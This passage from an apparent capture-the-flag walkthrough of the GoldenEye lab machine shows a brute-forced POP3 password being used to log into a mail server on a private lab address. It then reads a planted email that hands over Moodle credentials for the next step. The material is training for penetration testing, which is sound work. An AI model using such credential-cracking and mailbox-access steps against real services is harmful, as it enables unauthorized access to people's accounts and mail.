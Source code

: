 ```
1 of 1 target successfully completed, 1 valid password found
```

#### **Third**, login into dovecot using the credentials found

+ user: doak
+ password: goat

And now, let's read the messages:

```
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

.
```

#### **Fourth**, Log into moodle with new credentials and browse the service

As we have disclosed, again, a new credential for the moodle site, let's login and see what we can find: 
